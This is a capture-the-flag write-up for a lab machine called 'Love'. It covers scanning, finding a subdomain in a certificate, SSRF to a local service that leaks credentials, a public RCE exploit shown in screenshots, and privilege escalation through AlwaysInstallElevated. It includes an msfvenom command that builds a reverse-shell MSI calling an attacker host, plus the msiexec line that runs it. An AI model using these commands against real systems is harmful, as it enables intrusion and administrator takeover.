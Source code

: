 # Love

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (1007).png" alt=""><figcaption></figcaption></figure>

Lots of ports open.

### TLS Cert Checking

Port 80 reveals a voting system that requries credentials. Port 5000 was blocked off for whatever reason.

<figure><img src="../../../.gitbook/assets/image (1484).png" alt=""><figcaption></figcaption></figure>

A bit of enumeration on the type of service running reveals that it was an outdated software with loads of vulnerabilities:

<figure><img src="../../../.gitbook/assets/image (710).png" alt=""><figcaption></figcaption></figure>

Checking the certificate on port 443 reveals a hidden sub-domain.

<figure><img src="../../../.gitbook/assets/image (1124).png" alt=""><figcaption></figcaption></figure>

We can add this to the `/etc/hosts` file and view it.

### SSRF -> Authenticated RCE

The sub-domain found reveals this:

<figure><img src="../../../.gitbook/assets/image (1981).png" alt=""><figcaption></figcaption></figure>

Signing up and viewing it would direct us to this page:

<figure><img src="../../../.gitbook/assets/image (863).png" alt=""><figcaption></figcaption></figure>

I was able to get hits on a HTTP server hosted on my machine, but I could not download or execute anything. Since it was the server sending requests, I tried to enter `http://localhost:5000` and was returned this:

<figure><img src="../../../.gitbook/assets/image (745).png" alt=""><figcaption></figcaption></figure>

With credentials, we now get a shell using an RCE exploit that is publicly available. Just change the settings here:

<figure><img src="../../../.gitbook/assets/image (4064).png" alt=""><figcaption></figcaption></figure>

Then run the exploit:

<figure><img src="../../../.gitbook/assets/image (3133).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### AlwaysInstallElevated

When on the machine, I ran winPEAS to enumerate for me and found that `AlwaysInstallElevated` was set to 1.

<figure><img src="../../../.gitbook/assets/image (679).png" alt=""><figcaption></figcaption></figure>

What this exploit allows us to do is execute commands as the Administrator user through `msiexec`. As such, we would first need to generate a quick reverse shell using `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o rev.msi

# on target
msiexec /quiet /qn /i C:\directory\to\rev.msi
```

Afterwards, we would get a shell as the administrator:

<figure><img src="../../../.gitbook/assets/image (1819).png" alt=""><figcaption></figcaption></figure>
